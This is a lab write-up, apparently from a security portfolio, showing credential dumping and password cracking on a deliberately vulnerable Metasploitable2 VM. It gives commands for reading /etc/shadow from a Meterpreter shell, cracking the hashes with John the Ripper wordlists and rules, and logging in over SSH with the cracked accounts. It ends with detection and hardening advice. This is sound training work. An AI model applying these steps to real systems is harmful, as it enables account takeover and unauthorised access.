



# T1110.002 — Credential Dumping & Password Cracking (Metasploitable2)

**Author:** Looteri  
**Date:** 2026-03-30  
**Environment:** Kali Linux + Metasploitable2 + John the Ripper  
**MITRE ATT&CK:** T1003.008, T1110.002, T1078  
**Status:** Completed

---

## Objective

Extract password hashes from a compromised Linux system, crack them
using progressive wordlist and rule-based techniques, and validate
cracked credentials via SSH login — completing the full kill chain
from initial exploitation to persistent authenticated access.

---

## Lab Environment

| Component | Role | IP |
|---|---|---|
| Kali Linux | Attacker | 192.168.232.128 |
| Metasploitable2 | Target (Ubuntu 8.04) | 192.168.232.129 |
| John the Ripper | Password cracking | local |

---

## Phase 1 — Hash Extraction (T1003.008)

Following CVE-2011-2523 exploitation (see IR-001), `/etc/shadow`
was retrieved via Meterpreter shell:
```bash
shell
cat /etc/shadow
```

7 accounts with crackable MD5crypt (`$1$`) hashes identified:

| Account | Hash Type |
|---|---|
| root | md5crypt |
| sys | md5crypt |
| klog | md5crypt |
| msfadmin | md5crypt |
| postgres | md5crypt |
| user | md5crypt |
| service | md5crypt |



---

## Phase 2 — Password Cracking (T1110.002)

### Attempt 1 — Username=Password Pattern (john --single)
```bash
john --single --format=md5crypt shadows.txt
```

Cracked immediately:
```
msfadmin:msfadmin
```

> **Observation:** `--single` mode uses the username itself and
> common variations as the password — catches trivial credentials
> in seconds without any wordlist.

---

### Attempt 2 — Combolist + Rule-Based Attack

Wordlist constructed from multiple sources to avoid relying
on a single well-known list:
```bash
cat /usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-1000.txt \
  /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords.txt \
  /usr/share/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt \
  /usr/share/wordlists/rockyou.txt \
  > combolist.txt
```

Attack with parallel processing and rule-based mutations:
```bash
OMP_NUM_THREADS=3 john --fork=4 \
  --rules \
  --wordlist=combolist.txt \
  --format=md5crypt \
  shadows.txt
```

Additional 5 hashes cracked:
```
sys:batman
klog:123456789
postgres:postgres
user:user
service:service
```

---

## Phase 3 — Results Summary

| Account | Password | Method |
|---|---|---|
| msfadmin | msfadmin | john --single |
| sys | batman | combolist + rules |
| klog | 123456789 | combolist + rules |
| postgres | postgres | combolist + rules |
| user | user | combolist + rules |
| service | service | combolist + rules |
| root | uncracked | — |

**6 of 7 accounts compromised.** Root account withstood all attempts —
consistent with real-world scenarios where privileged accounts
enforce stronger password policies.



---

## Phase 4 — Credential Validation via SSH (T1078)

Cracked credentials validated against SSH service using
`msfadmin:msfadmin`:
```bash
ssh -oHostKeyAlgorithms=+ssh-rsa,ssh-dss msfadmin@192.168.232.129
```
```
Linux metasploitable 2.6.24-16-server
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=1000(msfadmin)
```

Authenticated access confirmed — no exploit required.
Attacker now has **persistent, legitimate SSH access** independent
of the vsftpd backdoor used in initial exploitation.



---

## Kill Chain Completion
```
CVE-2011-2523 exploit → root shell
       ↓
/etc/shadow extraction (T1003.008)
       ↓
Password cracking — 6/7 accounts (T1110.002)
       ↓
SSH login as msfadmin (T1078) — persistent access
```

---

## SIGMA Detection Rule

File: [`../../detections/sigma/T1110.002-password-cracking-indicators.yml`]
(../../detections/sigma/T1110.002-password-cracking-indicators.yml)

Detection logic: Multiple sequential SSH authentication successes
from a single source IP using different usernames within a short
timeframe — indicates credential stuffing from cracked hash list.

---

## Findings & Recommendations

- 6 of 7 accounts used trivially weak or username-matching passwords —
  confirming that default/weak credential policies are a critical risk
- `--single` mode cracked `msfadmin` in under 1 second —
  username=password is unacceptable in any environment
- Cracked credentials enable persistent SSH access independent
  of the original exploit vector — patching vsftpd alone is insufficient
- Password policy must enforce: minimum length, complexity,
  prohibition of username-as-password patterns
- `/etc/shadow` should never be readable by non-root processes —
  validate permissions: `chmod 640 /etc/shadow`
